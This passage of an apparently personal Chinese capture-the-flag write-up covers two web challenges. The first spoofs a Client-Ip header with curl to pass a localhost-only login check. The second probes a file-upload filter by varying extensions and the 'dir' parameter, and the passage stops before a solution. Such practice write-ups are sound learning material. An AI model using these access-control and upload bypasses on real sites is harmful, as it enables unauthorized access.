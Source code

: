 ## [伪装者](http://chinalover.sinaapp.com/web4/xxx.php)

```html
<html>
<meta http-equiv="Content-Type" content="text/html; charset=UTF-8" />

<pre><br><br><br><br>* * * * * * * * * * * * * * * * * * * * * * * * * *<br><br>         管理系统只能在本地登陆<br><br>           本系统外部禁止访问<br><br>* * * * * * * * * * * * * * * * * * * * * * * * * *<br></pre>不是本地登陆你还想要flag？
</html>
```

这里`X-Forwarded-For`不OK，要用`Client-Ip`:
```shell
curl http://chinalover.sinaapp.com/web4/xxx.php -v -H 'Client-Ip: 127.0.0.1'
```

## [上传绕过](http://teamxlc.sinaapp.com/web5/21232f297a57a5a743894a0e4a801fc3/index.html)

```shell
# 随便上传一个文本文件
echo 25252 > temp.txt
curl http://teamxlc.sinaapp.com/web5/21232f297a57a5a743894a0e4a801fc3/upload.php -X POST -F "dir=/uploads/" -F "file=@temp.txt"
# 提示只接收图像格式

# 那就上传一个图片吧
echo 25252 > temp.png
curl http://teamxlc.sinaapp.com/web5/21232f297a57a5a743894a0e4a801fc3/upload.php -X POST -F "dir=/uploads/" -F "file=@temp.png"
# 提示要上传一个php文本

# 那就上传文本吧
cp temp.png temp.php
curl http://teamxlc.sinaapp.com/web5/21232f297a57a5a743894a0e4a801fc3/upload.php -X POST -F "dir=/uploads/" -F "file=@temp.php"
# 又提示只接受图像
# 看样子这个判断逻辑是基于文件拓展名，不会去看文件的内容
```
注意到参数dir的值是否以斜杠结尾会影响文件的名字：
```shell
ubuntu@VM-0-5-ubuntu:~/kayoch1n.github.io$ curl http://teamxlc.sinaapp.com/web5/21232f297a57a5a743894a0e4a801fc3/upload.php -X POST -F "dir=/uploads/25252/" -F "file=@temp.png"
<html><head><meta charset="utf-8" /></head><body>
Array
(
    [0] => .png
    [1] => png
)
Upload: temp.png<br />Type: image/png<br />Size: 0.005859375 Kb<br />Stored in: ./uploads/8a9e5f6a7a789acb.phparray(4) {
  ["dirname"]=>
  string(15) "./uploads/25252"
  ["basename"]=>
  string(8) "temp.png"
  ["extension"]=>
  string(3) "png"
  ["filename"]=>
  string(4) "temp"
}
<br>必须上传成后缀名为php的文件才行啊！<br></body>
</html>ubuntu@VM-0-5-ubuntu:~/kayoch1n.github.io$ 
ubuntu@VM-0-5-ubuntu:~/kayoch1n.github.io$ 
```